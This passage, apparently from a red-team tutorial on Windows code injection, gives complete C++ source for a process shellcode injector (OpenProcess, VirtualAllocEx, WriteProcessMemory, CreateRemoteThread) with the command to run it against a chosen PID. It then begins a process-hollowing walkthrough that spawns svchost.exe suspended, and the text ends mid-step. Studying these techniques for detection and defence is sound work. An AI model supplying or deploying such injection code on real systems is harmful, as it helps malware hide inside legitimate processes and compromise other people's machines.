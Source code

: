 Full code in C++ for a process injector can be found below

```cpp
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "";

int main(int argc, char *argv[]) {
    HANDLE h_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (atoi(argv[1])));
    
    PVOID b_shellcode = VirtualAllocEx(h_process, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(h_process, b_shellcode, shellcode, sizeof shellcode, NULL);
    
    HANDLE h_thread = CreateRemoteThread(h_process, NULL, 0, (LPTHREAD_START_ROUTINE)b_shellcode, NULL, 0, NULL);
    
}
```

Compile the above code and then run it from the command line supplying the PID of the process you wish to inject with your shell code

```
shellcode-injector.exe PID
```

### Process Hollowing

**Definition** Process hollowing offers the ability to inject an entire malicious file into a process. This is accomplished by “hollowing” or un-mapping the process and injecting specific PE (**P**ortable **E**xecutable) data and sections into the process. **Steps of Process Hollowing**

1. Create a target process in a suspended state. At step one of process hollowing, we must create a target process in a suspended state using `CreateProcessA`. To obtain the required parameters for the API call we can use the structures `STARTUPINFOA` and `PROCESS_INFORMATION`.

```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```
